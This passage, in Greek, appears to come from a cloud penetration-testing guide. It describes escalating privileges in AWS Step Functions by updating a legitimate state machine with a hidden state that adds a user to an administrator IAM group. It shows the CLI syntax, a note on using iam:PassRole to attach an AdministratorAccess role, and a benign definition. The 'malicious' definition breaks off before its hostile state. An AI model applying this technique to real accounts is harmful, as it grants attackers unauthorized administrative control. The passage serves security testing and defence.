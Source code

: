 {% code overflow="wrap" %}
```bash
aws states update-state-machine --state-machine-arn <value> [--definition <value>] [--role-arn <value>] [--logging-configuration <value>] \
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]
```
{% endcode %}

Τα παρακάτω παραδείγματα δείχνουν πώς να ενημερώσετε μια νόμιμη μηχανή κατάστασης που απλώς καλεί μια συνάρτηση Lambda HelloWorld, προκειμένου να προσθέσετε μια επιπλέον κατάσταση που προσθέτει τον χρήστη **`unprivilegedUser`** στην ομάδα IAM **`administrator`**. Με αυτόν τον τρόπο, όταν ένας νόμιμος χρήστης ξεκινά μια εκτέλεση της ενημερωμένης μηχανής κατάστασης, αυτή η νέα κακόβουλη κρυφή κατάσταση θα εκτελείται και η κλιμάκωση προνομίων θα είναι επιτυχής.

{% hint style="warning" %}
Εάν η μηχανή κατάστασης δεν έχει συσχετισμένο έναν επιτρεπτικό ρόλο IAM, θα απαιτείται επίσης η άδεια **`iam:PassRole`** για να ενημερώσετε τον ρόλο IAM προκειμένου να συσχετίσετε έναν επιτρεπτικό ρόλο IAM (για παράδειγμα, έναν με την πολιτική **`arn:aws:iam::aws:policy/AdministratorAccess`** συνημμένη).
{% endhint %}

{% tabs %}
{% tab title="Νόμιμη Μηχανή Κατάστασης" %}
```json
{
"Comment": "Hello world from Lambda state machine",
"StartAt": "Start PassState",
"States": {
"Start PassState": {
"Type": "Pass",
"Next": "LambdaInvoke"
},
"LambdaInvoke": {
"Type": "Task",
"Resource": "arn:aws:states:::lambda:invoke",
"Parameters": {
"FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
},
"Next": "End PassState"
},
"End PassState": {
"Type": "Pass",
"End": true
}
}
}
```
{% endtab %}

{% tab title="Κακόβουλη Ενημερωμένη Μηχανή Καταστάσεων" %}
```json
{
"Comment": "Hello world from Lambda state machine",
"StartAt": "Start PassState",
"States": {
"Start PassState": {
"Type": "Pass",
"Next": "LambdaInvoke"
},
"LambdaInvoke": {
"Type": "Task",
"Resource": "arn:aws:states:::lambda:invoke",
"Parameters": {
"FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
},
```
